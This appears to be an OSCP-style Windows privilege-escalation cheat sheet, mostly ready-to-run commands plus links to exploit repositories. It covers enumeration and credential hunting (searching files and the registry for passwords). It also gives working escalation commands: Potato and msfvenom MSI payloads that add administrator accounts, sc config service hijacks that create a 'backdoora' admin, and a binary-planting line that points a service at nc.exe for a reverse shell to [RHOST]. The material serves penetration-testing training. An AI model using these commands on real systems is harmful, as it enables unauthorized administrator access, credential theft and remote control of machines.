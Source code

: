 https://paper.dropbox.com/doc/OSCP-Methodology-EnVX7VSiNGZ2K2QxCZD7Q 
------------------
https://github.com/LennonCMJ/pentest_script/blob/master/WindowsPE.md 

# sysinfo 
~~~
systeminfo
~~~
# Any services running as SYSTEM?
~~~        
tasklist /fi "USERNAME ne NT AUTHORITY\SYSTEM" /fi "STATUS eq running"
~~~
# If Windows > 2008 check the Group Policy Preferences.
~~~
\\REMOTE_HOST\SYSVOL\REMOTE_HOST\Policies\{POLICY_ID}\Machine\Preferences\ 
The following configuration files may be present: 
- Services\Services.xml 
- ScheduledTasks\ScheduledTasks.xml 
- Printers\Printers.xml 
- Drives\Drives.xml 
- DataSources\DataSources.xml
https://memorycorruption.org/windows/2018/07/29/Notes-On-Windows-Privilege-Escalation.html  
~~~
# Check if the hot potato exploit can be used.
~~~
Potato.exe -ip 127.0.0.1 -cmd "net user tater Winter2016 /add && net localgroup administrators tater /add" -disable_exhaust true
https://github.com/breenmachine/RottenPotatoNG
~~~
# Check to exploit trusted service paths. 
~~~
wmic service get 
name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """ 
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """ 
icacls "C:\Program Files (x86)\Privacyware"
1. List all unquoted service paths.
2- Check folder permissions on results. Look for M (modify) or W (write) for current user. 
~~~
# Check to exploit vulnerable services. 
# Accesscheck will determine which service bin paths can be modified.
~~~
Check:
accesschk.exe -uwcqv  "Authenticated Users" c:\*  /accepteula 
accesschk.exe -qwsu "Authenticated Users" c:\*
sc qc <SERVICE_NAME>
Exploit:
sc config upnphost  binpath= "net localgroup Administrators backdoora /add" depend= "" 

sc config upnphost  obj= ".\LocalSystem" password= ""  
binpath= "net localgroup Administrators backdoora /add" 

sc config upnphost  obj= ".\LocalSystem" password= "" 

Then we can use sc qc to determine the properties, you want to look for the following listed below.
Look for:

- SERVICE_CHANGE_CONFIG 
- SERVICE_ALL_ACCESS 
- GENERIC_WRITE 
- GENERIC_ALL 
- WRITE_DAC 
- WRITE_OWNER 

https://www.gracefulsecurity.com/privesc-insecure-service-permissions/ 
https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-windows-services-all-roads-lead-to-system-whitepaper.pdf
~~~
# Is elevated installations enabled on the server? We can exploit that.
~~~
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
~~~
# Use MSFvenom to create msi exploit. 
~~~
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o rotten.msi
msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\rotten.msi     
First check the registry, both must be set to 1.
~~~
# %PATH% exploit.
~~~
for %a in ("%path:;=";"%") do accesschk.exe  /accepteula -dqv "%~a"
~~~
============================
/ What system are we connected to? 
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" 
// Get the hostname and username (if available) 
hostname 
echo %username% 
// Get users 
net users 
net user [username] 
// Networking stuff 
ipconfig /all 
// Printer? 
route print 
// ARP-arific 
arp -A 
// Active network connections 
netstat -ano 
// Firewall fun (Win XP SP2+ only) 
netsh firewall show state 
netsh firewall show config 
// Scheduled tasks 
schtasks /query /fo LIST /v 
// Running processes to started services 
tasklist /SVC 
net start 
// Driver madness 
DRIVERQUERY 
// WMIC fun (Win 7/8 -- XP requires admin) 
wmic /? 
# Use wmic_info script! 
// WMIC: check patch level 
wmic qfe get Caption,Description,HotFixID,InstalledOn 
// Search pathces for given patch 
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.." 
// AlwaysInstallElevated fun 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated 
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated 
// Other commands to run to hopefully get what we need 
dir /s *pass* == *cred* == *vnc* == *.config* 
findstr /si password *.xml *.ini *.txt 
reg query HKLM /f password /t REG_SZ /s 
reg query HKCU /f password /t REG_SZ /s 
// Service permissions 
sc query 
sc qc [service_name] 
// Accesschk stuff 
accesschk.exe /accepteula (always do this first!!!!!) 
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!) 
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8) 
accesschk.exe -ucqv [service_name] 
// Find all weak folder permissions per drive. 
accesschk.exe -uwdqs Users c:\ 
accesschk.exe -uwdqs "Authenticated Users" c:\ 
// Find all weak file permissions per drive. 
accesschk.exe -uwqs Users c:\*.* 
accesschk.exe -uwqs "Authenticated Users" c:\*.* 
//Find services with unquoted service paths:  
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """ 
// Binary planting 
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe" 
sc config [service_name] obj= ".\LocalSystem" password= "" 
sc qc [service_name] (to verify!) 
net start [service_name]

# Some manual enumeration.
=====================================
http://www.bhafsec.com/wiki/index.php/Windows_Privilege_Escalation 

https://github.com/AusJock/Privilege-Escalation/tree/master/Windows 

https://github.com/abatchy17/WindowsExploits

# Pre-compiled windows exploits.
====================================
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html 
http://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html  

https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/ 

# Some brilliant resources if the above fails.
==================================
# OTHER WINDOWS TESTS

https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat
Comprehensive Windows privesc script that checks KBs as well as common misconfigurations
        
https://github.com/foxglovesec/RottenPotato
Local Privilege Escalation from Windows Service Accounts to SYSTEM

https://github.com/PowerShellMafia/PowerSploit
PowerSploit - A PowerShell Post-Exploitation Framework

# Other nice write-ups for windows priv-esc 
https://toshellandback.com/2015/11/24/ms-priv-esc/
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

